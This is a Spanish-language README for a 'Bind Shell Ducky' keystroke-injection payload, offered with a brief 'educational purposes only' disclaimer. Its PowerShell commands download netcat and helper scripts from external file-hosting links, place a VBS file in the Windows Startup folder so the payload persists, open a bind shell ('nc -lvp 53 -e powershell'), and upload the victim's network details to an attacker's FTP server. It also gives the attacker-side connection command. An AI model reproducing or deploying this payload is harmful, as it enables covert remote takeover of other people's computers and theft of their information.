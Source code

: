 # Bind Shell Ducky
No me hago responsable del mal uso que se le pueda dar a esta herramienta. Sólo para fines educativos.

## Explicación

Este payload lo que hace es configurar una bind shell que se ejecutará cada vez que el ordenador se encienda. Para ello, descarga 3 archivos y sube a nuestro servidor ftp 
( podéis modificarlo para que se suba de otro modo) un archivo .txt que contiene la información con la IP del equipo víctima.


#### Archivos utilizados:

	-nc.exe en USERPROFILE (https://download1585.mediafire.com/25w5mwh6g4kg/ncd5kz7z6bv0bsa/nc.exe)
	-Archivo b.bat en cualquier directorio, en mi caso USERPROFILE (https://download1497.mediafire.com/8m313dl9bqqg/kluwkdgi8v6dovl/b.bat)
	-Archivo e.vbs en carpeta de menú de inicio (https://download1338.mediafire.com/gvrx9wxzrjzg/ohgvexnnc6axq1d/e.vbs)
	-Archivo a.txt que contendrá la <IP_VÍCTIMA> ubicada en C:\


#### Conseguir la <IP_VÍCTIMA> y enviarla :

	-En el mismo powershell: cd C:\
	-En la siguiente línea enviamos la ip a un bloc de notas: ipconfig > a.txt
	-Nos registramos en nuestro servidor ftp: ftp <HOST DEL DOMINIO>
	-<USUARIO>
	-<CONTRASEÑA>
	-Subimos el archivo ya creado: put a.txt
	-bye


#### Por último, ejecuta el programa:

	-En el mismo ps:  start $st\e.vbs 


#### ADICIONAL:    

  Para acelerar el proceso, se declaran las variables $us , $st y $client 
  
  La conexión es a través del Puerto 53 
  
  Recomendable modificar el Delay en el payload dependiendo de la velocidad del ordenador. La duración media es de 40 segundos. 
  
  El comando que aparece en el .bat es: .\nc -lvp 53 -e powershell 
  
  Para acceder a la shell del equipo víctima, debemos poner esto desde kali linux: nc <IP_VÍCTIMA> 53 
  
  La <IP_VÍCTIMA> estará en el archivo a.txt que habremos enviado por ftp durante el ataque. 
  
  Probablemente os pida aceptar una opción del firewall al finalizar el proceso. 
  


#### COMANDOS EN POWERSHELL:
```
	$us = $env:userprofile
	$st = $env:appdata + "\Microsoft\Windows\Start Menu\Programs\"
	$client = new-object System.Net.WebClient
	$client.DownloadFile("https://download1497.mediafire.com/8m313dl9bqqg/kluwkdgi8v6dovl/b.bat","$us\b.bat")
	$client.DownloadFile("https://download1585.mediafire.com/25w5mwh6g4kg/ncd5kz7z6bv0bsa/nc.exe","$us\nc.exe")
	$client.DownloadFile("https://download1338.mediafire.com/gvrx9wxzrjzg/ohgvexnnc6axq1d/e.vbs","$st\e.vbs")
	cd C:\
	ipconfig > a.txt
	ftp <DOMINIO>
	<USUARIO>
	<CONTRASEÑA
	put a.exe
	bye
	start $st\e.vbs  
	exit	
```

## Sígueme en mi cuenta de Instagram: [**@belmar_04**](https://www.instagram.com/belmar_04/)
